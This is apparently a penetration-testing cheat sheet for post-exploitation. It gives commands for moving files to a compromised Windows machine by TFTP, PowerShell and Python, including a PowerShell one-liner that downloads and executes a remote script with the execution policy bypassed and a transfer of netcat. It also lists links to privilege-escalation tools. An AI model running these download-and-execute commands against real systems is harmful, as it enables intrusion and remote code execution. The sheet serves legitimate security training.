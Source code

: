 # Post Exploitation

## **File Transfers**

- TFTP
  ```bash
    kali@kali:~# mkdir /tftp
    kali@kali:~# atftpd --daemon --port 69 /tftp
    kali@kali:~# cp /usr/share/windows-binaries/nc.exe /tftp/
    
    C:\Users\Bob>tftp -i 10.11.0.5 get nc.exe
    ```
- PowerShell
  ```bash
    C:\Users\Bob> echo $storageDir = $pwd > wget.ps1
    C:\Users\Bob> echo $webclient = New-Object System.Net.WebClient >>wget.ps1
    C:\Users\Bob> echo $url = "http://10.11.0.5/evil.exe" >>wget.ps1
    C:\Users\Bob> echo $file = "new-exploit.exe" >>wget.ps1
    C:\Users\Bob> echo $webclient.DownloadFile($url,$file) >>wget.ps1
    #Finally we run the downloaded script
    C:\Users\Bob> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
  ```
  - Download and execute in PowerShell
    ```ps1
      powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.23/exploit.ps1');
    ```
- Python
  ```bash
    python -m SimpleHTTPServer [PORT] 
  ```
  
  
## **Linux Privilege Escalation**

- https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [Linux Smart Enum](https://github.com/diego-treitos/linux-smart-enumeration)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [BeRoot](https://github.com/AlessandroZ/BeRoot)
- [LinuxPrivChecker](https://github.com/sleventyeleven/linuxprivchecker)
- [Unix Privesc Check](https://github.com/pentestmonkey/unix-privesc-check)
- [Privilage Escalation through sudo](https://github.com/TH3xACE/SUDO_KILLER)

## **Windows Privilege Escalation**

- [PowerSploit's Power Up](https://github.com/PowerShellMafia/PowerSploit)
- [Watson](https://github.com/rasta-mouse/Watson)
- [Sherlock](https://github.com/rasta-mouse/Sherlock)
- [BeRoot](https://github.com/AlessandroZ/BeRoot)
- [Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)
- [Windows Privesc Check](https://github.com/pentestmonkey/windows-privesc-check)
- [Windows Exploits](https://github.com/abatchy17/WindowsExploits)
- [Windows Enum](https://github.com/absolomb/WindowsEnum)
- [SeatBelt](https://github.com/GhostPack/Seatbelt)
- [Powerless](https://github.com/M4ximuss/Powerless)
- [JAWS](https://github.com/411Hall/JAWS)
- [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe)
- [Windows Exploit Suggester](https://github.com/bitsadmin/wesng)
- [Privesc Check](https://github.com/itm4n/PrivescCheck)
